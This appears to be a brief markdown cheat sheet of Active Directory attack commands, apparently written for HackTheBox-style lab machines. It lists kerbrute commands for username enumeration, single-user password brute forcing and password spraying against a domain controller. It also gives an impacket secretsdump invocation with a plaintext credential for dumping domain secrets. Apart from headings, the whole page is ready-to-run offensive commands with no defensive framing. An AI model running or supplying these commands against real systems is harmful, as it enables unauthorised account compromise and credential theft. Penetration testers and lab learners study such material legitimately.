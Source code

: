 ## EnumUser

```
./kerbrute userenum --dc <IP address> -d <Domain> <User list>
```

## BruteUser

```
./kerbrute bruteuser -v --dc <IP address> -d <Domain> <Passoword list> <Username>
```

## Userlist & one password

```
./kerbrute passwordspray -v --dc 10.10.10.169 -d megabank.local users.txt 'Welcome123!
```

## seretsdump.py (impacket)

```
secretsdump.py 'htb.local/james:J@m3s_P@ssW0rd!@10.10.10.52'
```
